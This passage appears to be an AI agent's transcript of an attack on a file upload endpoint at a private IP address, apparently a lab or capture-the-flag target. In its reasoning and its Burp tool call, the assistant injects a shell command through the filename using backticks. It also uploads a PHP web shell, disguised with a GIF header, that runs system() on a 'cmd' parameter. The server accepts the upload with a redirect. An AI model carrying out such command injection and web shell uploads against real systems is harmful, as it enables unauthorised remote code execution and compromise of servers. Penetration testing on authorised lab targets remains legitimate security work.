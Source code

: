 # Current Mode
ACT MODE
</environment_details>

---

**Assistant:**

<thinking>
The upload with the shell metacharacters in the filename was successful. This is interesting and suggests that the server might be vulnerable to command injection through the filename.

Let's try to check if our command was executed by checking if the /tmp/test.txt file was created. We can do this by trying to access it directly, but that might not work if the file is outside the web root. Instead, let's try to use a more direct command injection to get immediate feedback.

Let's try to upload a file with a filename that includes a command that will be visible in the response, like using backticks to execute a command and include its output in the filename:
</thinking>

The upload with shell metacharacters in the filename was successful. Let's try a more direct command injection approach to get immediate feedback. I'll try to upload a file with a filename that includes backticks to execute a command and include its output in the filename.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "POST /upload.php HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nContent-Type: multipart/form-data; boundary=---------------------------12345678901234567890123456789\r\nContent-Length: 336\r\nConnection: close\r\n\r\n-----------------------------12345678901234567890123456789\r\nContent-Disposition: form-data; name=\"image\"; filename=\"shell.jpg`id > /var/www/html/id.txt`\"\r\nContent-Type: image/jpeg\r\n\r\nGIF89a;\r\n<?php\r\nif(isset($_REQUEST['cmd'])){\r\n    echo \"<pre>\";\r\n    $cmd = ($_REQUEST['cmd']);\r\n    system($cmd);\r\n    echo \"</pre>\";\r\n}\r\n?>\r\n-----------------------------12345678901234567890123456789--",
  "host": "10.10.11.241",
  "port": 8080,
  "secure": false
}
</arguments>
</use_mcp_tool>

---

**User:**

[use_mcp_tool for 'burpmcp'] Result:
HTTP/1.1 302 Found
Date: Wed, 07 May 2025 23:40:11 GMT
Server: Apache/2.4.55 (Ubuntu)
Location: /success.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
